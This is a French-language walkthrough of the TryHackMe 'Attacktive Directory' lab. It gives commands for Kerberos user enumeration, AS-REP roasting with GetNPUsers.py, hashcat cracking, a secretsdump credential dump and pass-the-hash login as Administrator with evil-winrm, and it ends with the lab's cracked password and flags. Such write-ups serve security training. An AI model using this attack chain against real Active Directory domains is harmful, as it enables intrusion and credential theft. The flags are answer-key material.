


# AttacktiveDirect

## Etape 1. SETUP

Télécharger les différents tools : 

Impacket :

    git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
    pip3 install -r /opt/impacket/requirements.txt
    cd /opt/impacket/ && python3 ./setup.py install

Bloodhound and neo4j:

    apt install bloodhound neo4j

## Etape 2. WELCOME TO ATTACKTIVE DIRECTORY

Nmap scan 

    nmap -sV -sC -o ad.nmap 10.10.159.18

    enum4linux -M [target_ip]

# Etape 3.ENUMERATION ENUMERATING USERS VIA KERBEROS:

Téléchargement de Kerbrute :

    https://github.com/ropnop/kerbrute/releases

Téléchargement du la Liste de Mdp et la liste d'Username

    # Username List
    wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

    # Password List
    wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

On lance kerbrute pour énumérer la machine

    ./kerbrute userenum --dc=10.10.159.18 -d=spookysec.local. ../../THM/AD/userList.txt

## Etape4.EXPLOITATION ABUSING KERBEROS

On a trouvé deux users non commun "svc-admin" et "backup"
On va utiliser l'outil "GetNPUsers.py"

    GetNPUsers.py -no-pass -dc-ip [Target_IP] spookysec.local/svc-admin

>Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

Rapide recherche sur google et on sait que l'on doit utiliser le mode 18200 pour craquer le hash

On va donc utiliser hashcat pour craquer le mot de passe de "svc-admin"

    mot de passe : management2005

## Etape 5. BACK TO THE BASICS

On peut maintenant essayer d'énumérer les dossiers partagés SMB en utilisant nos nouveaux identifiants

On parcour les dossiers et on fini par trouver un dossier dans lequel on peut se connecter.

On y trouve même un fichier intéressant 

On le télécharge 

C'est un fichier encodé en base64, on a juste à le décoder

# Etape 6. ELEVATING PRIVILEGES WITHIN THE DOMAIN

L'obtention des informations d'identification de la sauvegarde nous permet d'avoir plus de privilèges en tant que compte de sauvegarde dans un Domain Controller (DC). Ceci est dû au fait que toute modification de l'Active Directory (AD) reflétera ces modifications dans ce compte de sauvegarde. Par conséquent, nous pouvons obtenir les hashs des mots de passe de chaque utilisateur. Pour ce faire, nous pouvons utiliser secretsdump.py d'Impacket

On va maintenant installer evil-winrm afin d'accéder au système via le port 5985

    sudo gem install evil-winrm

## Etape 7. FLAG SUBMISSION PANEL 

On va lancer evil-winrm afin d'obtenir un PowerShell en Administrateur 

    evil-winrm -i [Target_IP] -u Administrator -H [Administrator_Hash]

On recherche 3 flag 

1. svc-admin
2. backup
3. Administrator

    Administrator : TryHackMe{4ctiveD1rectoryM4st3r}

    User : TryHackMe{K3rb3r0s_Pr3_4uth} 
    
    Backup : TryHackMe{B4ckM3UpSc0tty!}

